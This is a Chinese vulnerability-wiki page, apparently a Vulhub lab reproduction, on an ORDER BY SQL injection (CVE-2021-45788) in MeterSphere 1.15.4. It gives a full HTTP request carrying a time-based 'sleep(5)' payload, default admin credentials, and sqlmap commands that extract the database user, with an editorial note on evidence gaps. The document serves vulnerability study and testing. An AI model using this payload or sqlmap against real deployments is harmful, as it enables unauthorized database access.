




# MeterSphere v1.15.4 认证用户SQL注入漏洞 CVE-2021-45788

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Authenticated user/test-case access;<=1.15.4 claimed; existing case and CSRF/session token
- 证据范围：OrderBy injection request with timing claim and sqlmap usage; screenshots not evaluated

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Add actual fixed version and pinned lab/compose source
- Large captured UIcomponents JSON obscures vulnerability parameter; retain original then document minimal confirmed request separately
- Single sleep timing is not robust validation without control trials; result is imported claim
- Title tested version vs range should be separate metadata

### 操作风险与资料使用

- 含资源消耗、延时或崩溃验证：可能影响服务可用性；限制请求次数、并发与超时，保留无攻击负载的对照结果。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

MeterSphere是基于GPLv3协议的一站式的开源持续测试平台。在其1.15.4版本及以前，testcase相关API存在一处基于Order by的SQL注入漏洞。

参考链接：

- [https://github.com/metersphere/metersphere/issues/8651](https://github.com/metersphere/metersphere/issues/8651)

## 环境搭建

Vulhub执行如下命令启动一个MeterSphere 1.15.4服务器：

```shell
docker compose up -d
```

MeterSphere初始化成功后，访问`http://your-vps-ip:8081`即可跳转到默认登录页面。




## 漏洞复现

使用账号`admin`和密码`metersphere`来登录用户界面。在`http://your-vps-ip:8081/#/track/case/all`创建一个新的测试用例：




然后，发送如下数据包测试 SQL 注入漏洞（替换 csrf token 和 session id）：

```http
POST /test/case/list/1/10 HTTP/1.1
Host: your-vps-ip:8081
Content-Length: 3142
Accept: application/json, text/plain, */*
CSRF-TOKEN: [YOUR_CSRF_TOKEN]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: MS_SESSION_ID=[YOUR_SESSION_ID]
Connection: close

{"orders":[{"name":"name","type":",if(1=1,sleep(5),0)"}],"components":[{"key":"name","name":"MsTableSearchInput","label":"commons.name","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"tags","name":"MsTableSearchInput","label":"commons.tag","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"module","name":"MsTableSearchInput","label":"test_track.case.module","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"priority","name":"MsTableSearchSelect","label":"test_track.case.priority","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"P0","value":"P0"},{"label":"P1","value":"P1"},{"label":"P2","value":"P2"},{"label":"P3","value":"P3"}],"props":{"multiple":true}},{"key":"createTime","name":"MsTableSearchDateTimePicker","label":"commons.create_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"updateTime","name":"MsTableSearchDateTimePicker","label":"commons.update_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"creator","name":"MsTableSearchSelect","label":"api_test.creator","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"},{"label":"commons.adv_search.operators.current_user","value":"current user"}]},"options":{"url":"/user/list","labelKey":"name","valueKey":"id"},"props":{"multiple":true}},{"key":"reviewStatus","name":"MsTableSearchSelect","label":"test_track.review_view.execute_result","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"test_track.review.prepare","value":"Prepare"},{"label":"test_track.review.pass","value":"Pass"},{"label":"test_track.review.un_pass","value":"UnPass"}],"props":{"multiple":true}}],"filters":{"reviewStatus":["Prepare","Pass","UnPass"]},"planId":"","nodeIds":[],"selectAll":false,"unSelectIds":[],"selectThisWeedData":false,"selectThisWeedRelevanceData":false,"caseCoverage":null}
```

sleep(5) 成功执行：




保存请求包为req.txt，使用SQLMap来获取数据库用户信息：

```shell
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3 --current-user
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
